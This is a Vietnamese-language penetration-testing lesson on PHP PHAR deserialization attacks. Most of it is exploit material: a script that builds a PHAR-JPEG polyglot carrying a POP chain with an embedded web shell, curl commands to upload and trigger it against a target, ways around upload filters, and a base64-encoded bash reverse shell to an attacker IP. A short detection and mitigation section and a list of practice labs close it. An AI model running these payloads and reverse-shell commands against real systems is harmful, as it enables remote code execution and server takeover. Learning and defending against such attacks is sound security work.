

> **Prerequisites**: [[03-php-pop-chains|03. PHP POP Chain Construction]]
> **Objectives**:
> - Hiểu cấu trúc PHAR archive và tại sao metadata bị deserialise
> - Khai thác PHAR deserialization khi không có `unserialize()` trong code
> - Tạo polyglot PHAR-JPEG để bypass upload restrictions
> - Trigger deserialization qua các file operations phổ biến

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Có thể **upload file** lên server (bất kỳ extension nào — PHAR hoạt động với .jpg, .gif, .png...)
> - Có một **file operation** nào đó trong code nhận user-controlled path
> - Ứng dụng dùng PHP với version **< 8.0** (file_exists, fopen... tự động trigger) hoặc bất kỳ version nào nhưng code gọi `Phar::getMetadata()`
> - **Class** dùng trong POP chain phải nằm trong autoload scope

> [!tip] Tại sao PHAR nguy hiểm hơn unserialize() thông thường?
> Với PHAR, không cần `unserialize()` nào trong code của developer — bất kỳ file operation nào với `phar://` URI tự động trigger deserialization. Điều này biến **mọi file inclusion bug** thành tiềm năng deserialization attack.

---

## Cơ chế tấn công

### Cấu trúc PHAR file

PHAR (PHP Archive) là định dạng archive như ZIP/TAR nhưng dành cho PHP. Điểm quan trọng: **metadata trong PHAR manifest được serialize bằng PHP serialize()**.

![[assets/img-04-phar-structure.png]]
*Hình 1: Cấu trúc PHAR gồm 4 sections — Stub, Manifest (serialized metadata), File contents, Signature. Khi bất kỳ file operation nào dùng phar:// wrapper, PHP tự động deserialise manifest metadata*

### Tại sao phar:// trigger deserialization?

```text
Application code:                     PHP internal (transparent):
                                       Step 1: Parse PHAR format
file_exists("phar://upload/x.jpg")     Step 2: Read manifest
           ==>                         Step 3: unserialize(metadata) ← !
                                       Step 4: Return file info
```

File operation không cần là `unserialize()` — PHP tự xử lý bên trong. Developer không biết deserialization đang xảy ra.

**PHP 8.0 thay đổi:** Từ PHP 8.0, các filesystem functions như `file_exists()`, `fopen()` không còn tự động deserialise metadata. Chỉ `Phar::getMetadata()` và `PharFileInfo::getMetadata()` mới trigger. Tuy nhiên PHP 7.x vẫn rất phổ biến trong production.

### Attack flow



---

## Quy trình tấn công

**Môi trường giả định**: PHP 7.x webapp, có file upload ảnh (PNG/JPG), có feature kiểm tra file bằng `file_exists()` nhận user input.

**Bước 1 — Identify attack surface**

```bash
# Tìm file operations nhận user input trong source code
grep -rn "file_exists\|fopen\|file_get_contents\|copy\|rename\|unlink\|is_file\|is_dir" \
    --include="*.php" /var/www/ | grep -v "^\s*//"

# Kết quả đáng chú ý:
# ImageViewer.php:45: if (file_exists($_GET['image'])) {
# FileManager.php:23: $content = file_get_contents($_POST['path']);
```

> **Expected output**: Các dòng code có file operations với user-controlled input — đây là trigger point.

**Bước 2 — Xác định classes có sẵn trong scope**

```bash
# Tìm autoloaded classes (Composer)
cat composer.json | grep '"autoload"' -A 10
ls vendor/

# List các class files
find /var/www -name "*.php" | xargs grep -l "class " | head -20

# Hoặc đọc autoload map
cat vendor/composer/autoload_classmap.php | head -30
```

> **Expected output**: Danh sách classes có trong scope — tìm magic methods trong đó.

**Bước 3 — Craft PHAR payload**

```php
<?php
// phar-exploit.php — chạy với PHP CLI (cần phar.readonly=0)
// php -d phar.readonly=0 phar-exploit.php

// Định nghĩa class giống hệt target (chỉ cần properties)
class FileLogger {
    public $logPath;
    public $formatter;
}
class HtmlFormatter {
    public $template;
    public $renderer;
}
// ... (tất cả classes trong chain)
class TemplateEngine {
    public $tpl;
}

// Xây chain (giống lesson 03)
$engine    = new TemplateEngine();
$engine->tpl = 'data://text/plain;base64,'
             . base64_encode('<?php system($_GET["cmd"]); ?>');

// ... build full chain ...
$entry = new FileLogger();
// $entry->formatter = ...

// === Tạo PHAR ===
$phar = new Phar('exploit.phar');
$phar->startBuffering();

// Stub với JPEG magic bytes để bypass mime check
$stub = "\xff\xd8\xff\xe0" .      // JPEG SOI + APP0 marker
        str_repeat("\x00", 16) .  // Filler bytes
        "<?php __HALT_COMPILER(); ?>";
$phar->setStub($stub);

// Set POP chain làm metadata
$phar->setMetadata($entry);

// Thêm dummy file (bắt buộc)
$phar->addFromString("dummy.txt", "placeholder");

$phar->stopBuffering();

// Rename thành .jpg để bypass upload filter
rename('exploit.phar', 'exploit.jpg');

echo "[+] PHAR exploit.jpg created\n";
echo "[+] File size: " . filesize('exploit.jpg') . " bytes\n";
```

```bash
# Tạo file
php -d phar.readonly=0 phar-exploit.php
# Output: [+] PHAR exploit.jpg created
```

> **Expected output**: `exploit.jpg` được tạo — file hợp lệ về mặt JPEG header nhưng là PHAR archive.

**Bước 4 — Upload exploit.jpg**

```bash
# Upload qua curl (giả lập form upload)
curl -X POST \
    -F "file=@exploit.jpg;type=image/jpeg" \
    http://target.com/upload.php

# Ghi nhận đường dẫn file sau khi upload
# Thường là: /uploads/[timestamp]-exploit.jpg hoặc /uploads/[random].jpg
```

> **Expected output**: Upload thành công, server trả về path như `/uploads/1712345678-exploit.jpg`.

**Bước 5 — Trigger deserialization**

```bash
# Trigger bằng cách gửi phar:// URI tới file operation
# Ví dụ: endpoint kiểm tra file existence
curl "http://target.com/check.php?image=phar:///var/www/html/uploads/1712345678-exploit.jpg"

# Nếu path không biết chính xác, thử path traversal
curl "http://target.com/check.php?image=phar://./uploads/exploit.jpg"

# Verify RCE
curl "http://target.com/check.php?image=phar:///var/www/html/uploads/exploit.jpg&cmd=id"
```

> **Expected output**: `uid=33(www-data)...` — POP chain đã được trigger và execute command.

**Bước 6 — Leo thang lên reverse shell**

```bash
# Setup listener
nc -lvnp 4444 &

# Gửi reverse shell payload
CMD='bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'
CMD_B64=$(echo "$CMD" | base64 -w 0)
curl "http://target.com/check.php?image=phar://...&cmd=echo+${CMD_B64}+|+base64+-d+|+bash"
```

---

## Biến thể & Bypass

### Bypass upload restrictions — file type checks

```php
// Server check getimagesize() — bypass bằng valid JPEG header trong stub
$stub = "\xff\xd8\xff\xe0\x00\x10JFIF\x00\x01\x01\x00\x00\x01\x00\x01\x00\x00" .
        "<?php __HALT_COMPILER(); ?>";

// Server check file extension — đặt extension khác
rename('exploit.phar', 'exploit.png');  // PNG
rename('exploit.phar', 'exploit.gif');  // GIF

// GIF magic bytes
$stub = "GIF89a" . "<?php __HALT_COMPILER(); ?>";
```

### Trigger qua các hàm ít ngờ tới

```php
// Các functions ít rõ ràng hơn nhưng cũng trigger phar:// trên PHP < 8.0
highlight_file('phar://...');      // Render PHP file với syntax highlighting
include_once('phar://...');        // Include từ PHAR
$zip = new ZipArchive();
$zip->open('phar://...');          // ZipArchive cũng trigger

// Trong ImageMagick (qua PHP)
$img = new Imagick('phar://...');  // Trigger nếu PHP bindings dùng file ops
```

### Chain với xxe hoặc SSRF

```text
Một số scenario phức tạp hơn:
1. XXE → đọc file → tìm upload path → PHAR trigger
2. SSRF → trỏ vào internal file server → phar:// URI
3. Path traversal → tìm PHAR file đã upload → trigger
```

---

## Cây quyết định

```mermaid
flowchart TD
    A[File upload + file operation với user input?] -->|Có| B{PHP version?}
    A -->|Không| Z1[Không áp dụng được]
    B -->|PHP 7.x| C[Full attack surface]
    B -->|PHP 8.0+| D{Code gọi Phar::getMetadata()?}
    D -->|Có| C
    D -->|Không| Z2[PHAR không trigger — tìm vector khác]
    C --> E[Identify classes trong autoload scope]
    E --> F[Xây POP chain như Lesson 03]
    F --> G[Craft PHAR với chain trong metadata]
    G --> H{Upload restrictions?}
    H -->|Extension check| I[Rename .jpg/.png + valid image header]
    H -->|MIME check| J[Thêm valid JPEG magic bytes trong stub]
    H -->|Content scan| K[Dùng valid image file + append PHAR data]
    I --> L[Upload và note server path]
    J --> L
    K --> L
    L --> M[Trigger với phar:// URI qua file operation endpoint]
    M --> N{RCE confirmed?}
    N -->|Có| O[Escalate: reverse shell]
    N -->|Không| P[Check: đúng path? Đúng class scope? PHP version?]
```

---

## Command Cheatsheet

**Tạo PHAR**

```bash
# Cần phar.readonly=0 trong php.ini hoặc dùng -d flag
php -d phar.readonly=0 phar-exploit.php

# Kiểm tra PHAR hợp lệ
php -r "var_dump(is_file('phar://exploit.jpg/dummy.txt'));"

# Xem metadata của PHAR đã tạo
php -r "\$p = new Phar('exploit.jpg'); var_dump(\$p->getMetadata());"
```

**Verify file là PHAR hợp lệ**

```bash
# Kiểm tra magic bytes của PHAR (sau JPEG header)
xxd exploit.jpg | grep -A2 "HALT"

# Kiểm tra bằng PHP
php -r "
try {
    \$p = new Phar('exploit.jpg');
    echo 'Valid PHAR, metadata: ';
    var_dump(\$p->getMetadata());
} catch(Exception \$e) {
    echo 'Not valid PHAR: ' . \$e->getMessage();
}
"
```

**Trigger via Burp Suite**

```http
GET /check.php?image=phar:///var/www/html/uploads/exploit.jpg HTTP/1.1
Host: target.com
```

**Scan for file operations in source**

```bash
# Tìm tất cả file ops có thể trigger phar://
grep -rPn "(file_exists|fopen|copy|rename|unlink|is_file|is_dir|file_get_contents|highlight_file|include|require)\s*\(" \
    --include="*.php" /var/www/ | grep -v "'\|\"" | head -30
# Lines không có hardcoded string = nhận dynamic input
```

---

## Daily Drill

**Thời gian**: 20 phút/ngày trong 7 ngày đầu.

**Drill 1 — Craft PHAR từ đầu**
Mục tiêu: tạo PHAR với metadata object mà không cần xem template.

```bash
# Viết script tạo PHAR chứa stdClass với property 'cmd' = 'id'
# Không mở notes — từ memory
php -d phar.readonly=0 -r "
\$p = new Phar('/tmp/test.phar');
\$p->startBuffering();
\$p->setStub('<?php __HALT_COMPILER(); ?>');
\$obj = new stdClass();
\$obj->cmd = 'id';
\$p->setMetadata(\$obj);
\$p->addFromString('x','x');
\$p->stopBuffering();
echo 'done';
"
```

Luyện cho đến khi: tạo PHAR hợp lệ trong dưới 3 phút không xem docs.

**Drill 2 — Thêm JPEG magic bytes**
Mục tiêu: tạo polyglot PHAR-JPEG pass qua `getimagesize()`.

```bash
# Tạo PHAR với JPEG header
# Verify bằng:
php -r "var_dump(getimagesize('exploit.jpg'));"
# Phải trả về array hợp lệ, không phải false
```

Luyện cho đến khi: tạo polyglot pass image check trong dưới 2 phút.

**Drill 3 — Full attack simulation**
Mục tiêu: end-to-end attack trong 10 phút.

```bash
# 1. Craft PHAR với payload (2 phút)
# 2. Upload simulate: cp exploit.jpg /tmp/uploads/
# 3. Trigger:
php -r "file_exists('phar:///tmp/uploads/exploit.jpg');"
# 4. Verify chain executed
```

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Web logs**: Request path chứa `phar://` — đây là indicator rõ nhất, rất bất thường
>
> **File system monitoring**: PHAR file được tạo ngoài expected locations
>
> **PHP error logs**: Exception từ `Phar::` class khi kẻ tấn công probe

> [!note] Mitigation
> - **Upgrade PHP 8.0+** — filesystem functions không còn auto-trigger phar://
> - Disable `phar.readonly=0` trong php.ini (không cho phép tạo PHAR ở runtime)
> - Validate file uploads: kiểm tra cả magic bytes VÀ re-encode ảnh (strip metadata) bằng GD/Imagick
> - Không dùng user input trực tiếp trong file operation paths
> - Triển khai Content Security Policy cho file uploads

---

## Lab Thực hành

| Platform | Machine/Lab | Tại sao phù hợp |
|----------|-------------|-----------------|
| PortSwigger | **Using PHAR deserialization to deploy a custom gadget chain** | Lab chính thức với walkthrough |
| HTB | **Tenet** (Retired) | File upload + PHAR trigger trong WordPress plugin |
| VulnHub | **Lampião** | PHP file upload → PHAR → RCE chain |
| DVWA | Custom module | Lab môi trường local để practice |

Làm PortSwigger lab trước để nắm concept, sau đó HTB Tenet để thực chiến.
